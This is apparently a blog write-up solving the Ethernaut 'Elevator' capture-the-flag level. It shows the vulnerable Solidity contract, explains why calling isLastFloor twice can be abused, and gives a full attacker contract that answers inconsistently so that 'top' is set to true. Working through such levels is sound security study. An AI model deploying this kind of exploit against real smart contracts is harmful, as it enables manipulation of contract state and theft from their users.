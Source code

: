 ```yaml
---
title: Ethernaut - Elevator - Solution
date: '2024-05-08'
tags: ['security', 'solidity', 'ctfs']
draft: false
summary: Solution to the Ethernaut - Elevator CTF
---
```


# Ethernaut - Elevator - Solution

## Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}
```

## Exploit

The goal of this level is to set `top` to `true`.

To achieve this, we need to ensure our attacker/building contract lies about the fact that the elevator reached the top floor when `isLastFloor()` is called the first time (so that we enter the `if` statement), but tells the truth when called the second time (so that we set `top` to `true`).

So, to complete the level, we can simply deploy the below attacker/building contract and call `goTo(42)`.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IElevator {
    function goTo(uint256 _floor) external;
}

contract ElevatorAttacker {
    IElevator public immutable VICTIM;
    uint256 public constant TOP_FLOOR = 42;

    bool public tellTheTruth;

    constructor(address victim) {
        VICTIM = IElevator(victim);
    }

    function goTo(uint256 floor) external {
        VICTIM.goTo(floor);
    }

    function isLastFloor(uint256 floor) external returns (bool) {
        if (floor == TOP_FLOOR) {
            // When the top is reached, lie when asked the first time but tell the truth when asked the second time
            if (tellTheTruth == false) {
                tellTheTruth = true;
                return false;
            } else {
                return true;
            }
        } else {
            // If the top is not reached, always tell the truth
            return false;
        }
    }
}
```
